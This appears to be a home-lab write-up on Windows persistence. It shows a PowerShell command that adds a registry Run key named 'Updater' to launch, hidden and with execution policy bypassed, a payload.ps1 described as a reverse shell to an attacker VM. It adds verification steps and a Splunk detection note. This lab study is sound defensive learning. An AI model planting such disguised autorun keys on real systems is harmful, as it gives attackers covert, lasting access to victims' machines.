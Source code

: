 # 🪝 Persistence via Registry Run Key

## 💡 Goal
Establish persistence on the Windows victim machine so that the attacker's payload is automatically executed on user login.

---

## 🖥️ Target System
- **Host**: Victim (Windows 10 VM)
- **User**: vboxuser
- **IP**: 192.168.0.12

---

## ⚙️ Method: Registry Run Key

The following registry key was added to persist a PowerShell reverse shell payload:

```powershell
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" `
  -Name "Updater" `
  -Value "powershell -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Users\vboxuser\payload.ps1" `
  -PropertyType String
```
## 📝 Payload Script: payload.ps1
This file is saved at:
```
C:\Users\vboxuser\payload.ps1
```
It contains a PowerShell one-liner reverse shell to 192.168.0.11:4444.

## ✅ Verification
```
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
```
This confirmed the “Updater” key is active and will trigger the script at every login.
![Screenshot 2025-04-25 200720](https://github.com/user-attachments/assets/804f7845-c2ff-4382-8ba5-f684923e4ada)


## 📌 Notes
- Tested manually by restarting the VM and observing an incoming shell.
- Anti-virus must be disabled for the payload to execute.
- EventCode 3 and 1 can detect this activity in Splunk.
